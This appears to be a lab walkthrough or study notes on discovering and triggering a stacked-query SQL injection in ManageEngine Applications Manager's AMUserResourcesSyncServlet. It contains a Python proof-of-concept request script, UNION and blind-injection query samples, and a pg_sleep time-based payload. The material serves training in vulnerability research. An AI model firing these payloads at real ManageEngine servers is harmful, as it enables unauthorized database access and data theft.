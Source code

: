 # ManageEngine
## Servlet Mappings
The `.do` extension is typically a URL mapping scheme for compiled Java code.

Fortunately, there is only one Java process running on our vulnerable machine. Some applications use multiple Java process instances though. In such cases, we can check any given process properties in **Process Explorer** by right-clicking on the process name and choosing **Properties**

In the **Path** location, we can see that the process uses a working directory of **C:\Program Files\ManageEngine\AppManager12\working\\**.

Java web applications use a deployment descriptor file named **web.xml** to determine how URLs map to servlets, which URLs require authentication, and other information.

Within the working directory, we see a **WEB-INF** folder, which is the Java's default configuration folder path where we can find the web.xml file. This file contains a number of servlet names to servlet classes as well as the servlet name to URL mappings.

By checking the contents of the **C:\Program Files (x86)\ManageEngine\AppManager12\working\WEB-INF\lib** directory, we notice that it contains a number of **JAR** files. If we just take a look at the names of these files, we can see that most of them are actually standard third party libraries such as **struts.jar** or **xmlsec-1.3.0.jar**. Only four JAR files in this directory appear to be native to ManageEngine.

Most query strings are assigned to a variable named query:
```java
String query = "select count(*) from Alert where SEVERITY = " + i + " and groupname = 'AppManager'";
```

Specifically, it contains a couple of key strings we want to look for, namely "query" and "select", and also uses string concatenation using the "+" operator.

```regexp
^.*?query.*?select.*?
```

* Look for any line that contains any number of alphanumeric characters at the beginning.
* Which is followed by the string **QUERY**
* Which is followed by any number of alphanumeric characters
* Which is followed by the string **SELECT**
* Which is followed by any number of alphanumeric characters

HTTP request handler functions
* doGet
* doPost
* doPut
* doDelete
* doCopy
* doOptions

```java
protected void doGet(HttpServletRequest req, HttpServletResponse resp)
```

The first parameter is an **HttpServletRequest** object that contains the request a client has made to the web application, and the second one is an **HttpServletResponse** object that contains a response the servlet will send to the client after the request is processed.

We are interested in the servlet code that extracts HTTP request parameters through the **getParameter** or **getParameterValues** methods.

```java
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=" + userId + " and RESOURCEID >" + stRange + " and RESOURCEID < " + endRange;

rs = AMConnectionPool.executeQueryStmt(qry);
```

## Enable Database Logging
Since ManageEngine uses PostgreSQL as a back end database, we will need to edit its configuration file in order to enable any logging feature. In our virtual machine, the **postgresql.conf** file is located at the following path: **C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\postgresql.conf**

In order to instruct the database to log all SQL queries we'll change the postgresql.conf log_statement setting to 'all' as shown in the listing below.

```
log_statement = 'all'			# none, ddl, mod, all
```

After changing the log file, we will need to restart the ManageEngine Applications Manager service to apply the new settings. We can do this by launching services.msc and finding the ManageEngine Applications Manager service.

Once the service is restarted, we will be able to see failed queries in log files, beginning with swissql, in the following directory:
**C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\\**

To execute SQL queries directly against the database for debugging purposes. 
* **pgAdmin** software, which is installed on the ManageEngine virtual machine.
* command line utility **psql.exe**, you can use that as well. Please note that the ManageEngine server instance is configured to listen on port 15432.

```bat
psql.exe -U postgres -p 15432
```

## Triggering the Vulnerability
From the servlet mapping initially discovered in the web.xml file, we know that the URL we need to use to reach the vulnerable code is as follows:
```xml
<servlet-mapping>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>
```

```xml
<servlet>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
</servlet>
```

```http
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1; HTTP/1.1
Host: manageengine:8443
```

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
    if len(sys.argv) != 2:
        print "(+) usage %s <target>" % sys.argv[0]
        print "(+) eg: %s target" % sys.argv[0]
        sys.exit(1)
    
    t = sys.argv[1]
    
    sqli = ";"

    r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t, params='ForMasRange=1&userId=1%s' % sqli, verify=False)
    print r.text
    print r.headers

if __name__ == '__main__':
    main()
```

To use a UNION query and extract data directly from the database. However, the RESOURCEID column that the original query is referencing, is defined as a BIGINT datatype, i.e., we could only extract arbitrary data when it is of the same data type.
```
select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1 UNION SELECT 1
```

To use a UNION query with a boolean-based blind injection. We could construct the injected queries to ask a series of TRUE and FALSE questions and infer the data we are trying to extract in that fashion.
```
select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1 UNION SELECT CASE WHEN (SELECT 1)=1 THEN 1 ELSE 0 END
```
The reason why we are not considering this approach is because Postgres SQL-injection attacks allow an attacker to perform stacked queries. This means that we can use a query terminator character in our payload, and inject a completely new query into the original vulnerable query string. The downside with stacked queries is that they return multiple result sets. This can break the logic of the application and with it the ability to exfiltrate data with a boolean blind-based attack. Unfortunately, this is exactly what happens with our ManageEngine application. 


To solve this problem and still be able to use the flexibility of stacked queries, we have to resort to time-based blind injection payloads. resort to time-based blind injection payloads.
In the case of PostgreSQL, to confirm the blind injection we would use the **pg_sleep** function

```http
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;
select+pg_sleep(10); HTTP/1.1
Host: manageengine:8443
```